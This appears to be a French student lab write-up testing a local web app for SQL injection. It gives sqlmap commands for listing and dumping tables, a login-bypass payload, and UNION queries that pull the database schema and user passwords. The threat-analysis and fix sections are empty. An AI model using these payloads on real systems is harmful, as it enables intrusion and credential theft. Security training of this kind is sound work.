 # Projet 2

## Identification des failles 

En effectuant un premier test avec sqlmap on peut constater plusieurs choses. Nous avons la liste des tables, le type de la base (SQLite) et le nom de la base de données. On peut modifier les requêtes en conséquences. 

Apparemment la version SLQlite serait vulnérable aux injection UNION et à 

 **POST parameter 'txt_uname' is vulnerable** 

```sh
sqlmap -u "http://localhost:8080/login.php" --batch --tables --forms --crawl=2 --level=5 --risk=3

Database: SQLite_masterdb
[3 tables]
+-----------------+
| message         |
| sqlite_sequence |
| userSti         |
+-----------------+
```

Nous allons maintenant essayé de faire un dump de la table `userSti` afin de savoir si elle contient des credentials. On voit qu'il  y a 4 entrées utilisateur dans la table  userSti.

```sh
sqlmap -u "http://localhost:8080/login.php" --batch --dbms=SQLite -D SQLite_masterdb -T userSti --dump --forms --crawl=2 --level=5 --risk=3
+----+
| id |
+----+
| 1  |
| 2  |
| 3  |
| 5  |
+----+
```

### Injection SQL
La page de connexion est vulnérable à une "Boolean based Blind SQL Injection" sur le champ txt_login
```sql
' or 1=1;#
```

Il est possible de récupérer le script de création des tables sqlite, comme le site web est vulnérable à des unions attaques sur l'URL contact.php
```sql
'UNION select name,sql from sqlite_master;
```
La base de donnée donne 3 scripts de générations dont 2 nous intéresse (message, userSti, sqlite_sequence)
```sql
CREATE TABLE 'message' ('id' integer PRIMARY KEY AUTOINCREMENT, receiptDate DATE NOT NULL, sender integer NULL, receiver integer NULL, sujet varchar (50) NOT NULL, messageBody varchar (500) NOT NULL, CONSTRAINT fk_sender FOREIGN KEY(sender) REFERENCES userSti(id), CONSTRAINT fk_receiver FOREIGN KEY(receiver) REFERENCES userSti(id) )

CREATE TABLE 'userSti' ('id' integer PRIMARY KEY AUTOINCREMENT, username varchar (50) UNIQUE NOT NULL, password varchar (255) NOT NULL, isAdmin INT(1) NOT NULL, isActive INT(1) NOT NULL )
```
Il est possible de récupérer les mots de passe des utilisateurs pour pouvoir les étudier dans un second temps en offline
```sql
'UNION select 1,password from userSti;#
```

## Analyse de menace 

## Correctif logiciel 

